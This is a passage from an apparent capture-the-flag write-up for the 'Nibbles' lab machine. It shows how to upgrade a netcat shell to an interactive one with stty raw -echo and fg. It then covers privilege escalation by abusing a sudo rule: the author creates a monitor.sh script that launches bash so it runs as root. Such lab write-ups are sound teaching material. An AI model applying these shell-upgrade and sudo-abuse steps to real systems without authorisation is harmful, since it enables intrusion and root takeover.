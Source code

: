 This gives us a partially interactive bash shell. To get a fully interactive shell, background the session (CTRL+ Z) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground.

Grab the user flag.

![](../img/Nibbles Writeup wo Metasploit/1_WmmNZ9MV9MeEVFKbEkGYEg.png)

Now we need to escalate privileges.

# Privilege Escalation

Find out what privileges you have.

```
sudo -l
```

![](../img/Nibbles Writeup wo Metasploit/1_j20Aa5lZrmYgZSu9ffGncQ.png)

We can run the script monitor.sh in the above specified directory as root without having to enter a root password. Why is that good news for us? If we call a shell in that script, we can run it as root!

First, let’s see what the script contains.

```
cat home/nibbler/personal/stuff/monitor.sh
```

![](../img/Nibbles Writeup wo Metasploit/1_udPCq0mgasnrSF34S3jVyA.png)

It does not exist! We’ll have to create one.

```
mkdir -p home/nibbler/personal/stuff
cd /home/nibbler/personal/stuff
vi monitor.sh
```

In the monitor.sh script add the following code.

```
#!/bin/sh
bash
```

Give it execute privileges.

```
chmod +x monitor.sh
```

